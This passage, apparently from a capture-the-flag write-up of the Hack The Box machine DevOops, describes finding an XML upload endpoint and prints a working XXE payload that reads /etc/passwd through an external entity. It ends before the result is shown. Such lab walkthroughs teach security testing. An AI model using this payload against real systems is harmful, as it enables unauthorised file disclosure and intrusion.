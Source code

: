 We can ignore `/feed` as it only points to an image showed on the index webpage. However, the `/upload` directory sounds interesting.

<a href="/img/blog/htb-devoops/htb-devoops-03.png" target="_blank"><img class="centerImgMedium" src="/img/blog/htb-devoops/htb-devoops-03.png"></a>

`/upload`, as the name implies (duh), allows us to upload files onto the server. 2 major things immediately catch my attention. The website classifies this directory's content as a "test API" - something you  don't want to expose to public. In an "ideal" CTF like scenario, experimental code often has vulnerabilities in it. Because the website also mentions *XML* it would be a shame if we didn't try [XML injections](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing){:target="_blank"}, right :) ?

# Exploitation
There are 2 ways to exploit this vulnerability and turn it into a shell. Before we do so, let's show our XXE payload which we'll slightly adjust depending on what we want to access.

{% highlight xml %}
<!DOCTYPE v3ded [  
   <!ELEMENT v3ded ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<v3>
	<Author>V3ded!</Author>
	<Subject>XXE!</Subject>
	<Content>&xxe;</Content>
</v3>
{% endhighlight %}

Don't forget to wrap everything around a root element (in my case `<v3>`) and use only the previously mentioned XML tags <a href="/img/blog/htb-devoops/htb-devoops-03.png" target="_blank">(image here)</a> or the file won't parse and therefore this attack won't work. After submitting our payload we get the following:
